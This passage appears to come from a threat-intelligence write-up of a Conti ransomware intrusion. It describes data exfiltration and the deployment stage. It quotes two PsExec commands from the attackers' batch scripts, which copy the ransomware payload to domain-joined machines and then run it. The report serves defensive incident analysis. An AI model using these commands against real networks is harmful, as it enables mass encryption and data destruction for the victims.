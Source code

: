 
### Exfiltration


As part of the discovery stage, we observed data being exfiltrated. The data ranged from host discovery, running processes, and user accounts: 


![](https://thedfirreport.com/wp-content/uploads/2021/07/image-27.png)
Entire AD forest data – including usernames , DC configuration, and machine enumeration: 


![](https://thedfirreport.com/wp-content/uploads/2021/08/1.png)
### Impact


When, the threat actors returned two days later, the final payloads were staged by the threat actors on a domain controller in the following location:



```
C:\share$
```

[![](https://thedfirreport.com/wp-content/uploads/2021/07/4641-01.png)](https://thedfirreport.com/wp-content/uploads/2021/07/4641-01.png)


Two batch scripts were executed on the domain controller to automate ransomware deployment via PSExec. The first was “\_COPY.bat”, to stage the CONTI ransomware payload on all domain-joined computers. The second was “\_EXE.bat”, to execute the staged CONTI payloads.  


![](https://thedfirreport.com/wp-content/uploads/2021/08/1-1.png)
The batch scripts ran as expected a set of copy commands and then executed the Conti payload using psexec.



```
start PsExec.exe -accepteula @C:\share$\comps1.txt -u "domain\User" -p "$PASSWORD" cmd /c COPY "\\DOMAINCONTROLLER\share$\fQumH.exe" "C:\windows\temp\"
```


```
start PsExec.exe -accepteula -d @C:\share$\comps5.txt -u "domain\User" -p "$PASSWORD" cmd /c "C:\windows\temp\fQumH.exe"
```

Files were then encrypted with the following extension [KCRAO]: 


![](https://thedfirreport.com/wp-content/uploads/2021/07/image-34.png)
 


A readme.txt file was created in each folder: 


![](https://thedfirreport.com/wp-content/uploads/2021/07/image-41.png)
The content of readme.txt: 
